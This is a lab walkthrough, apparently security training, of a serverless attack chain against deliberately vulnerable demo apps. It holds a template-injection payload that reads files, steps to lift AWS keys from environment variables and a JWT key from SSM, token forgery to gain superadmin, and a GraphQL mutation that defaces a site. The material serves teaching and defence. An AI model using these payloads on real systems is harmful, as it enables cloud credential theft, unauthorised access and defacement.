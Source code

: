 # **Serverless Attack**


### *The goal of the attack is to:*

* #### Gain access to a Serverless function
* #### Steal meta-data from the said function
* #### Use the stolen data to compromise AWS service(s)
* #### Gain access to AWS service(s), steal necessary information
* #### Deface a [website](https://serverless-defaceme.netlify.com/) that using the info

-------

#### Step 1:

* Access the [Serverless-Attack](https://serverless-attack.netlify.com) Application on the browser.

```commandline
https://serverless-attack.netlify.com
```

* Register and Login to the Application

### *Note: The details provided CAN be fake and we highly recommend it!*

-------

#### Step 2:

* Once logged in, copy the value of `token` that can be found in `Session Storage` under the `Storage` section in `developer tools`

* Click on the `File-Upload` icon present in the header

* Click on the `Upload` button and upload the `readme.txt` file. It can be observed that the contents of the file is rendered on the UI

### *Note: It only accepts `.txt` files.*

### *What are the potential attacks based on this functionality???*

-------

#### Step 3:

* Similar to **Step 2**, upload `malicious-file.txt` and observe the output rendered on the UI

-------

#### Step 4:

* Sensitive information like the ones mentioned below can be fetched from the environment variables:

    * `AWS_SESSION_TOKEN`

    * `AWS_SECURITY_TOKEN`

    * `AWS_ACCESS_KEY_ID`

    * `AWS_DEFAULT_REGION`

    * `AWS_SECRET_ACCESS_KEY`


* On the Server provisioned, set the values fetched from the previous step as `Enironment variables`


```bash
export AWS_SESSION_TOKEN=<VALUE-OF-AWS_SESSION_TOKEN>

export AWS_SECURITY_TOKEN=<VALUE-OF-AWS_SECURITY_TOKEN>

export AWS_ACCESS_KEY_ID=<VALUE-OF-AWS_ACCESS_KEY_ID>

export AWS_DEFAULT_REGION=<VALUE-OF-AWS_DEFAULT_REGION>

export AWS_SECRET_ACCESS_KEY=<VALUE-OF-AWS_SECRET_ACCESS_KEY>
```

-------

#### Step 5:

* Similar to **Step 2**, upload `read-etc-pwd.txt` and `read-py-files.txt`.

* By observing the results, we were able to fetch the source-code of application. By further investigation of the source-code, we can see that `auth` is imported.

* Edit `read-py-files.txt` file to fetch source-code of `auth.py` and upload the file

```bash
{{ ''.__class__.__mro__[2].__subclasses__()[40]('auth.py').read() }}
```

* From `auth.py`, it can be observed that `AWS SSM` is being used and `JWT_PASS` is the parameter that needs to be fetched.

-------

#### Step 6:

* Use `awscli` to fetch decrypted `JWT_PASS` from `SSM` 

### *Note: Ensure that `awscli` has been installed and the AWS `environment variables` have been set*

```commandline
aws ssm get-parameters --names "JWT_PASS" --with-decryption
```

* The `Value` fetched in encoded with `base64`. Decode to get the private key.

```commandline
echo "<JWT_PASS value>" | base64 --d > privkey
```

* Using the private key, create a public key using `openssl`

```commandline
openssl rsa -in privkey -pubout -outform PEM -out public.key.pub
```

-------

#### Step 7:

* Access [`jwt.io`](https://jwt.io) on the browser and paste the `JWT Token` fetched in **Step 2**.

* Paste the value of `privkey` and `public.key.pub` under the `Verify Signature` section.

* The `Payload` data can now be tampered with

-------

#### Step 8:

* On a separate tab, access the `DefaceMe` web application.

```commandline
https://serverless-defaceme.netlify.com/
```

* On the browser, select the `Networks` tab that can be found in `developer tools`.

* It can be observed that there's a **`POST`** method being called when the web application is loaded.

* Copy and access the `URL` that the `POST` method is used on

```commandline
https://ctf-gql.we45.dev/graph
```

### *The website is using `GraphQL`*

-------

#### Step 9:

* Paste the `GraphQL` URL on a `REST Client` on your machine.

```commandline
https://ctf-gql.we45.dev/graph
```

### *We'll be using [Insomnia](https://insomnia.rest/)*

* On the `Rest Client`(Insomnia), select the method as **`POST`** and structure as **`GraphQL`**

* `Refresh` the schema and try to perform a `query` leveraging the `Auto Completion` provided by GraphQL.

### *It can be observed that a user has to be authorized to make changes on GraphQL*

-------

#### Step 10:

* On the [`jwt.io`](https://jwt.io) tab, tamper the value of **`isSuperAdmin`** to `true` and copy the `JWT Token`.

```commandline
isSuperAdmin:true
```

-------

#### Step 11:

* Under the `Header` tab on the `REST Client`(Insomnia), add `authorization` and paste the value of the `JWT Token`

* Perform a query to confirm if the token is working.

**EXAMPLE**:

```commandline
query{
  users {
    id
    email
    firstName
    lastName
    walletId
    openingBalance
  }
}
```

-------

#### Step 12:

* Update the mutation to deface the web application

```commandline
mutation{
  createPage(body:"Changed", header:"Defaced", image:"<your favourite gif here>.gif")
  {
    newPage{
      header
      body
      image
    }
  }
}
```

* Access the [`DefaceMe`](https://serverless-defaceme.netlify.com/
) web application to see if the attack was successful.

--------

### Reading Material/References:


